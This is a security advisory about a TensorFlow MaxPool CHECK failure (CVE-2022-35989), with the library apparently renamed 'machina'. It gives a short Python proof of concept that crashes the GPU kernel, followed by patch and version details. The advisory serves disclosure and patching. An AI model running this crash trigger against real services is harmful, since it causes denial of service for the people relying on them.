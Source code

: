 ## TFSA-2022-120: `CHECK` fail in `MaxPool`

### CVE Number
CVE-2022-35989

### Impact
When `MaxPool` receives a window size input array `ksize` with dimensions greater than its input tensor `input`, the GPU kernel gives a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import machina as tf
import numpy as np

input = np.ones([1, 1, 1, 1])
ksize = [1, 1, 2, 2]
strides = [1, 1, 1, 1]
padding = 'VALID'
data_format = 'NCHW'

tf.raw_ops.MaxPool(input=input, ksize=ksize, strides=strides, padding=padding, data_format=data_format)
```

### Patches
We have patched the issue in GitHub commit [32d7bd3defd134f21a4e344c8dfd40099aaf6b18](https://github.com/machina/machina/commit/32d7bd3defd134f21a4e344c8dfd40099aaf6b18).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Jingyi Shi.

